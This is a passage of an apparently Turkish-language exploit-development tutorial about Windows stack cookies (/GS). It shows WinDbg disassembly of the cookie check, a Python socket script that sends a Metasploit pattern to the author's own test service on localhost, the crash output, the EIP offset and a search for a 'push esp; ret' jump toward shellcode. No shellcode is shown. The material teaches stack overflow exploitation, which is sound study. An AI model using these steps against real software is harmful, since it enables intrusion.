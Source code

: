 	0041132f 8b4dfc          mov     ecx,dword ptr [ebp-4]
	00411332 33cd            xor     ecx,ebp
	00411334 e8e0fcffff      call    prog1!ILT+20(__security_check_cookie (00411019)

Buradaysa öncelikle yığında saklanan cookie değeri ECX yazmacına alınıyor. Ardından prologue'de olduğu gibi EBP ile bir XOR işlemi yapılıyor, ve son olarak cookie'nin doğruluğunu kontrol edecek olan fonksiyon çağırılıyor. Bu doğruluk kontrolünün ardından eğer cookie değeri değişmişse program sonlandırılıyor, aksi halde çalışmaya devam ediyor.

### Stack Cookie Statik mi Dinamik mi ?
Şimdi öncelikle **/GS** kapalı şekilde derlediğimiz programımız için exploit yazalım. Yerelde *200* numaralı portu dinleyen programa basit bir python kodu ile **1000** karakterlik bir metasploit pattern gönderelim ardından *WinDbg* üzerinde exploiting işlemini gerçekleştirelim.

	import struct
	from socket import *

	host = "localhost"
	port = 200
	adres = (host,port)

	Baglanti = socket(AF_INET,SOCK_STREAM)
	Baglanti.connect(adres)

	cokertkaarsim = "Aa0Aa12Af3Af4Af5Af6Af7Af3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3A***snipped"

	Baglanti.send(cokertkaarsim)
	Baglanti.close()

Kodu çalıştırmadan önce kullanacağımız Windbg için yazılmış olan **byakugan** eklentisini kurmayı unutmayın. Eklentiyi metasploit'in github sayfasında bulabilirsiniz. Kurduğunuzu varsayıp devam ediyorum. Kodu çalıştırdıktan sonra program Windbg'da çökecek. Ardından byakugan'ı kullanarak bize gereken offset adresini bulacağız.

	(390.a78): Access violation - code c0000005 (first chance)
	First chance exceptions are reported before any exception handling.
	This exception may be expected and handled.
	eax=0012e00c ebx=7ffd4000 ecx=0012ee34 edx=00000000 esi=00bff790
    edi=00bff6ee eip=41387141 esp=0012e208 ebp=37714136
	41387141 ??              ???
	0:000> !load byakugan
	0:000> !pattern_offset 1000
	  [Byakugan] Control of ebp at offset 500.
	  [Byakugan] Control of eip at offset 504.

Gördüğünüz üzre byakugan EIP yazmacı üzerine 504 bytedan sonra yazıldığını söylüyor. Şimdi geriye kalan tek şey stackte yer edinecek olan shell kodumuza atlamak için gereken instructionı bulmak. Onu da Windbg kullanıp önceki yazılarda yaptığımız şekilde buluyoruz. Bu örneğimizde ben `push esp, ret` metodunu kullanacağım.
	
	0:000> lm
	  start    end        module name
	  00400000 0041a000   prog1  
	  10200000 10323000   MSVCR90D #Bu modülde arama yapacağız
	  ***snipped***
	0:001> a
	  7c90120f push esp
	  push esp
	  7c901210 ret
	  ret
	  7c901211 

